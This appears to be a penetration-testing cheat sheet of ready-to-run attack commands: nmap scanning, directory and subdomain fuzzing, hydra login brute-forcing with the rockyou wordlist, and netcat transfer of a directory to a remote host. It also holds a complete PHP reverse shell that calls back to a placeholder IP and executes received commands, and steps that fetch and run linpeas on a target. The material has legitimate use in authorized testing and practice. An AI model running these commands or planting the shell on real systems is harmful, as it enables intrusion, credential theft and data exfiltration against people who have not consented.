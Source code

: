 ## Network scan with`nmap`:
```bash
nmap -v -sV -O -A --top-ports 1000 -oN nmap_output.txt example.com
```

## Directory enumeration with `dirb`:
```bash
dirb http://example.com /usr/share/wordlists/dirb/common.txt -o dirb_output.txt
```

## Subdomains enumeration with `ffuf`:
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://example.com -H "Host: FUZZ.example.com" -mc 200 -fs 15949 -o ffuf_output.json -of json
```

## Login brute-force with `hydra`:
### Syntax 1
```bash
sudo hydra -v -V -d -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -o hydra_output.txt http-post-form://example.com/login"&username=^USER^&password=^PASS^:F=Bad"
```
### Syntax 2
```bash
sudo hydra -v -V -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -o hydra_output.txt example.com http-post-form "/login:username=^USER^&password=^PASS^=:F=Bad"
```

## Web app scan with `nikto`:
```bash
nikto -h example.com -p 80 -o nikto_output.txt
```

## Search metasploit
```bash
msfconsole

show

search <name>
```

## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc example.com 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

# Archive
### Compress:
```bash
tar -czvf archive.tar.gz /path/to/directory_or_file
```
### Extract:
```bash
tar -xzvf archive.tar.gz -C /path/to/extract
```

## PHP reverse shell
```bash
nc -lvnp 4444
```
```php
<?php
$ip = 'x.x.x.x'; // change this to your IP address
$port = 4444; // change this to your listening port
$socket = fsockopen($ip, $port);
if ($socket) {
    $shell = 'uname -a; w; id; /bin/sh -i';
    fwrite($socket, $shell);
    while (!feof($socket)) {
        $command = fgets($socket);
        $output = '';
        if ($command) {
            $output = shell_exec($command);
            fwrite($socket, $output);
        }
    }
    fclose($socket);
}
?>
```

## Download and serve `linpeas`
### Sender:
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Receiver
```bash
cd /tmp
wget x.x.x.x:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
less -r ./output.txt
```
